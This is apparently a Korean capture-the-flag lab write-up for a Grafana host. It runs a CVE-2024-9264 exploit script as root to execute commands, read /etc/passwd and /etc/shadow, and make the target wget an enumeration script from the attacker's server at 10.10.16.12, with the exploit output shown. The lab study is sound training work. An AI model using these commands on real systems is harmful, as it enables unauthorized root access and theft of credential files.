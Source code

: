 python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "id" http://grafana.planning.htb
uid=0(root) gid=0(root) groups=0(root)

# kali

wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O linenum.sh

# kali 파이썬 내장 모듈인 http.server를 이용해서 현재 디렉토리를 기준으로 웹 서버를 8080 포트에서 실행하여 linenum.sh 파일을 다운로드할 수 있도록 합니다.

# 파이썬 서버가 실행된 폴더에 해당 파일이 저장됩니다.

python3 -m http.server 8000

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -q "SELECT content FROM read_blob('/etc/passwd')" http://grafana.planning.htb
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -q "SELECT content FROM read_blob('/etc/shadow')" http://grafana.planning.htb

# 이제 반대로 칼리에서 설치한 linenum 를 타겟의 grafana 서버로 다운로드 받아서 실행

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "wget http://10.10.16.12:8000/linenum.sh" http://grafana.planning.htb

[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: wget http://10.10.16.12:8000/linenum.sh
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT \* FROM read_csv('wget http://10.10.16.12:8000/linenum.sh >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
--2025-06-03 14:19:42-- http://10.10.16.12:8000/linenum.sh
Connecting to 10.10.16.12:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: 'linenum.sh.3'

     0K .......... .......... .......... .......... .....     100% 8.81K=5.2s

2025-06-03 14:19:48 (8.81 KB/s) - 'linenum.sh.3' saved [46631/46631]

# DuckDB의 read_blob() 함수로 파일 내용 읽기

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -q "SELECT content FROM read_blob('/tmp/enum_result.txt')" http://grafana.planning.htb

--------------- 정리

OSCP 해킹 과정의 **완전한 데이터 흐름**과 **명령어 분석**을 상세히 설명드리겠습니다.
